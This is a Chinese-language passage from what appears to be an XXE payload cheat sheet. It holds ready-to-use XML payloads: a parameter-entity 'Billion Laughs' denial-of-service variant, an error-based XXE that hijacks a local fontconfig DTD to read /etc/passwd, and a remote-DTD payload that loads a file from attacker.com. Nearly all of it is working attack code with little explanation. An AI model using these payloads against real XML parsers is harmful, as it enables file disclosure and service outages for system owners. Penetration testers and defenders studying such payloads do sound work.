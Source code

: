 Billion Laughs攻击的一个变种，使用延迟解释参数实体，由Sebastian Pipping提出。

```xml
<!DOCTYPE r [
  <!ENTITY % pe_1 "<!---->">
  <!ENTITY % pe_2 "&#37;pe_1;<!---->&#37;pe_1;">
  <!ENTITY % pe_3 "&#37;pe_2;<!---->&#37;pe_2;">
  <!ENTITY % pe_4 "&#37;pe_3;<!---->&#37;pe_3;">
  %pe_4;
]>
<r/>
```


## 利用基于错误的XXE

### 基于错误 - 使用本地DTD文件

简短的Linux系统上已存储的dtd文件列表；使用`locate .dtd`列出它们：

```xml
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/share/xml/svg/svg10.dtd
/usr/share/xml/svg/svg11.dtd
/usr/share/yelp/dtd/docbookx.dtd
```

文件`/usr/share/xml/fontconfig/fonts.dtd`在第148行有一个可注入的实体`%constant`：`<!ENTITY % constant 'int|double|string|matrix|bool|charset|langset|const'>`

最终的payload变为：

```xml
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
    <!ENTITY % constant 'aaa)>
            <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
            <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///patt/&#x25;file;&#x27;>">
            &#x25;eval;
            &#x25;error;
            <!ELEMENT aa (bb'>
    %local_dtd;
]>
<message>Text</message>
```


### 基于错误 - 使用远程DTD

**触发XXE的有效载荷**

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
    %ext;
]>
<message></message>
```
